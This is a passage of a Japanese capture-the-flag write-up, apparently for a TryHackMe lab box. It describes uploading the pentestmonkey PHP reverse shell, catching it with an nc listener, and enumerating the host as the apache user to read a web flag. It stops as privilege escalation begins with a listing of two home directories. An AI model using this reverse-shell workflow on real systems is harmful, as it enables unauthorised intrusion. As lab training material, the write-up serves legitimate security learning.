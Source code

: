 ```sh
-rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
-rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
-rw-r--r--    1 0        0             576 Nov 17  2020 main.css
-rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
```

pentestmonkey の PHP をアップロードしたらリバースシェルを取れた。

```sh
$ nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.13.85.243] from (UNKNOWN) [10.10.19.34] 34924
Linux ip-10-10-19-34 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:38:07 up 30 min,  0 users,  load average: 0.00, 0.55, 0.90
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (886): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

```sh
bash-4.4$ env
USER=apache
PWD=/
HOME=/usr/share/httpd
LC_CTYPE=C.UTF-8
TERM=xterm
SHLVL=3
_=/usr/bin/env
bash-4.4$ ls -al /usr/share/httpd
total 24
drwxr-xr-x.  5 root root   63 Nov 17  2020 .
drwxr-xr-x. 81 root root 4096 Nov  8  2020 ..
drwxr-xr-x.  3 root root 4096 Nov  8  2020 error
drwxr-xr-x.  3 root root 8192 Nov  8  2020 icons
drwxr-xr-x.  3 root root  140 Nov  8  2020 noindex
-rw-r--r--.  1 root root   38 Nov 17  2020 web.flag
bash-4.4$ cat /usr/share/httpd/web.flag
thm{................................}
```

web フラグゲット。

## 権限昇格１

2 ユーザーいる。

```sh
bash-4.4$ ls -al /home
total 0
drwxr-xr-x.  4 root    root     34 Nov  8  2020 .
drwxr-xr-x. 17 root    root    244 Nov 18  2020 ..
drwx------.  3 james   james   112 Nov 17  2020 james
drwx------.  4 paradox paradox 203 Nov 18  2020 paradox
```
